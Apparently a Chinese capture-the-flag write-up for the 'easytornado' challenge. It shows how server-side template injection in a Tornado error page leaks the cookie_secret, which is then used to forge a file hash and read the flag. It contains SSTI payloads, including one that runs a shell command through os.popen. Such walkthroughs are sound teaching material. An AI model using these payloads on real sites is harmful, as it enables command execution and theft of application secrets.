





# easytornado
## 题目描述
Tornado 框架
## 思路
http://220.249.52.133:41546  
点开题目链接，发现有三个超链接：  
  
都点进去看看：  
http://220.249.52.133:41546/file?filename=/flag.txt&filehash=de05020c8343288daa209a2c1f0af8be  
  
http://220.249.52.133:41546/file?filename=/welcome.txt&filehash=efdfa0b4308222a125b3f178c226157d  
  
http://220.249.52.133:41546/file?filename=/hints.txt&filehash=2095c3a7b916ef41046f3870a6a1dccd  
  
根据 url 的规律和每个文件中的提示，我们可以知道，最终的 flag 是在 /fllllllllllllag 这个文件中，而访问这个文件同时需要一个 filehash，这个 filehash 是由 md5(cookie_secret+md5(filename)) 算法算出来的。几经周折，没有找到 cookie_secret。
那我们先不带 filehash 访问一下 /fllllllllllllag 这个文件：  
http://220.249.52.133:41546/file?filename=/fllllllllllllag  
页面跳出 Error 且链接自动修改为：  
http://220.249.52.133:41546/error?msg=Error  
从网上找了个提示，说是，/error?msg=Error 可能是服务端模板注入攻击（SSTI）的标志，因此尝试一下：  
http://220.249.52.133:41546/error?msg=Error{{ config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read() }}  
出现了 ORZ 的页面，那大概率是存在服务端模板注入攻击（SSTI），因此，我们的目标就变为了，利用服务端模板注入攻击（SSTI）去寻找 cookie_secret。  
查了一下，cookie_secret 在 application 对象中的 settings 属性中，还发现 self.application.settings 有一个别名：RequestHandler.settings。  
handler 指向的处理当前这个页面的 RequestHandler 对象， RequestHandler.settings 指向 self.application.settings， 因此 handler.settings 指向 RequestHandler.application.settings。  
***
有个问题，为什么用 RequestHandler.application.settings 不对？即构造如下 url：http://220.249.52.133:41546/error?msg=Error{{ RequestHandler.application.settings }}
是错误的。
***
因此，构造 payload：  
http://220.249.52.133:41546/error?msg=Error{{ handler.settings }}  
  
再利用在线工具，计算 filehash，首先计算 /fllllllllllllag 的 md5 的值：  
3bf9f6cf685a6dd8defadabfb41a03a1  
然后与 cookie_secret 拼接：  
bbc9b9eb-708e-425a-b665-1d03d4d225503bf9f6cf685a6dd8defadabfb41a03a1  
再次计算 md5 的值，即为 filehash：  
e54f2ee88c30cf7b0b6c7348469867cb  
因此，构造 url：  
http://220.249.52.133:41546/file?filename=/fllllllllllllag&filehash=e54f2ee88c30cf7b0b6c7348469867cb  
  
得到 flag。  
